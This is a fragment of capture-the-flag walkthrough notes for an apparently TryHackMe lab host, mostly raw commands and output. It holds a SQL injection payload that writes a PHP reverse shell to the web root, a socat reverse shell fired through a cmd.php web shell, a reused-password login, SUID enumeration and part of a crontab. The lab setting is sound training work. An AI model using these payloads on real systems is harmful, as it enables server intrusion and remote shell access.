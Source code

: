 <div><span style="color: #9aa83a;">-rw-r--r-- 1 ollie ollie 0 Feb 10 03:21 .sudo_as_admin_successful </span></div>
<div><span style="color: #9aa83a;">-r-x------ 1 ollie ollie 29 Feb 10 03:22 user.txt </span></div>
<br />
<div><span style="color: #9aa83a;">" union select 1,'','','' into outfile '</span>/var/www/html/test.php<span style="color: #9aa83a;">' -- -</span></div>
<div><span style="color: #9aa83a;">" union select 1,2,3,'</span><span style="color: #676867;">&lt;?</span>php <span style="color: #6089b4;">$sock</span>=fsockopen(<span style="color: #9aa83a;">"10.6.18.225"</span>,1337)<span style="color: #676867;">;</span>exec(<span style="color: #9aa83a;">"/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3"</span>)<span style="color: #676867;">;</span> <span style="color: #676867;">?&gt;</span><span style="color: #9aa83a;">' into outfile '</span>/var/www/html/sh.php<span style="color: #9aa83a;">' -- -</span></div>
<br /><br />
<div><span style="color: #9aa83a;">socat file:`tty`,raw,echo=0 TCP-L:4242</span></div>
<div><span style="color: #9aa83a;">http://10.10.163.9/cmd.php?cmd=socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:10.6.18.225:4242</span></div>
<br /><br />
<div><span style="color: #9aa83a;">su - ollie (same password :P)</span></div>
<br />
<div><span style="color: #9aa83a;">cat user.txt</span></div>
<div><span style="color: #9aa83a;">THM{Ollie_boi_is_daH_Cut3st}</span></div>
<br /><br />
<div><span style="color: #9aa83a;">ollie@hackerdog:/etc$ find / -perm -u=s -type f 2&gt;/dev/null | rev | cut -d'</span>/<span style="color: #9aa83a;">' -f 1 | rev | sort | uniq</span></div>
<div><span style="color: #9aa83a;">at</span></div>
<div><span style="color: #9aa83a;">chfn</span></div>
<div><span style="color: #9aa83a;">chsh</span></div>
<div><span style="color: #9aa83a;">dbus-daemon-launch-helper</span></div>
<div><span style="color: #9aa83a;">dmcrypt-get-device</span></div>
<div><span style="color: #9aa83a;">fusermount</span></div>
<div><span style="color: #9aa83a;">gpasswd</span></div>
<div><span style="color: #9aa83a;">mount</span></div>
<div><span style="color: #9aa83a;">newgrp</span></div>
<div><span style="color: #9aa83a;">passwd</span></div>
<div><span style="color: #9aa83a;">ping</span></div>
<div><span style="color: #9aa83a;">pkexec</span></div>
<div><span style="color: #9aa83a;">polkit-agent-helper-1</span></div>
<div><span style="color: #9aa83a;">snap-confine</span></div>
<div><span style="color: #9aa83a;">ssh-keysign</span></div>
<div><span style="color: #9aa83a;">su</span></div>
<div><span style="color: #9aa83a;">sudo</span></div>
<div><span style="color: #9aa83a;">umount</span></div>
<br />
<div><span style="color: #9aa83a;">ollie@hackerdog:/etc$ cat /etc/crontab</span></div>
<div><span style="color: #9aa83a;"># /etc/crontab: system-wide crontab</span></div>
<div><span style="color: #9aa83a;"># Unlike any other crontab you don'</span>t have to run the <span style="color: #9aa83a;">`crontab'</span></div>
<div><span style="color: #9aa83a;"># command to install the new version when you edit this file</span></div>
<div><span style="color: #9aa83a;"># and files in /etc/cron.d. These files also have username fields,</span></div>
<div><span style="color: #9aa83a;"># that none of the other crontabs do.</span></div>
<br />
<div><span style="color: #9aa83a;">SHELL=/bin/sh</span></div>
<div><span style="color: #9aa83a;">PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin</span></div>
<br />
<div><span style="color: #9aa83a;"># Example of job definition:</span></div>
<div><span style="color: #9aa83a;"># .---------------- minute (0 - 59)</span></div>
<div><span style="color: #9aa83a;"># |  .------------- hour (0 - 23)</span></div>
<div><span style="color: #9aa83a;"># |  |  .---------- day of month (1 - 31)</span></div>
<div><span style="color: #9aa83a;"># |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...</span></div>